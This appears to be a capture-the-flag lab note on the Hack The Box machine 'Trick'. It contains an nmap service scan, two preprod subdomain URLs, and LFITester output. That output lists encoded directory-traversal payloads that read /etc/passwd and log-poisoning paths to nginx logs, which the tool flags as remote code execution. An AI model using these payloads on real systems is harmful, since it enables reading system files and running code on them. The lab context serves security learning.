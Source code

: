 # ip machine 10.10.11.166

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-08 12:47 EDT
Nmap scan report for preprod-payroll.trick.htb (10.10.11.166)
Host is up (0.084s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
| http-title: Admin | Employee's Payroll Management System
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.84 seconds

# url adress

http://preprod-payroll.trick.htb/login.php
http://preprod-marketing.trick.htb/

lfi tester https://github.com/kostas-pa/LFITester result :

Directory traversal found with http://preprod-marketing.trick.htb/index.php?page=%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2Fetc%2Fpasswd
[+] Directory traversal found with http://preprod-marketing.trick.htb/index.php?page=%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2Fetc%2Fpasswd
[+] Remote code execution (RCE) found with log poisong with the path http://preprod-marketing.trick.htb/index.php?page=%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F/var/log/nginx/error.log
[+] Remote code execution (RCE) found with log poisong with the path http://preprod-marketing.trick.htb/index.php?page=%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F/var/log/nginx/access.log
[+] Remote code execution (RCE) found with log poisong with the path http://preprod-marketing.trick.htb/index.php?page=%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F/var/log/nginx/error.log